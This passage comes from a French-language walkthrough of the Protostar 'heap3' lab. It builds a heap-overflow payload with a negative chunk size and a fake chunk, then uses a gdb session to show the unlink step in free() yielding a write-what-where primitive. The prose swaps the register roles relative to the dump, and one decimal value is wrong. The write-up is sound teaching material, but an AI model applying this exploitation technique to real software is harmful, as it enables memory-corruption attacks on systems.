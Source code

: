 Je vais spécifier une taille de -16 soit `0xfffffff0` en hexadécimal :

```python
>>> (-16).to_bytes(4, byteorder=sys.byteorder, signed=True)
b'\xf0\xff\xff\xff'
```

Via la copie dans le 3ème chunk je vais placer mon faux chunk qui sera alors à l'adresse `0x804c060` (la ligne du dessous dans gdb). 

Tout ça est facilité par le fait que les appels à `strcpy()` se font dans l'ordre de création des chunks : le zéro terminal qui est placé par la fonction `strcpy()` au début des données du second chunk sera effacé par le `strcpy()` suivant.

On peut déjà vérifier que `malloc` tente de fusionner notre faux chunk en mettant un FD et BK invalides (respectivement des lettres `D` et des `E`) :

```
(gdb) r AAAA `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "DDDDEEEE"'`
Starting program: /opt/protostar/bin/heap3 AAAA `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "DDDDEEEE"'`

Breakpoint 1, 0x08048911 in main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24      in heap3/heap3.c
(gdb) x/36wx 0x804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343 <- on a écrasé la taille du chunk existant pour mettre -16
0x804c060:      0x43434343      0x43434343      0x44444444      0x45454545 <- notre faux chunk
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
0x080498fd in free (mem=0x804c058) at common/malloc.c:3638
3638    common/malloc.c: No such file or directory.
        in common/malloc.c
(gdb) x/i $eip
0x80498fd <free+217>:   mov    %edx,0xc(%eax)
(gdb) info reg edx eax
edx            0x45454545       1162167621
eax            0x44444444       114532461
```

Ici le breakpoint  a été mis sur le premier appel à `free()` et l'exécution de la fonction provoque un segmentation fault car le programme tente d'écrire la valeur `0x44444444` (`edx`) à l'adresse `0x45454545 + 0xc` (`eax+12`).

On a bien un write-what-where qui correspond à la copie du `BK` dans `FD->BK`.
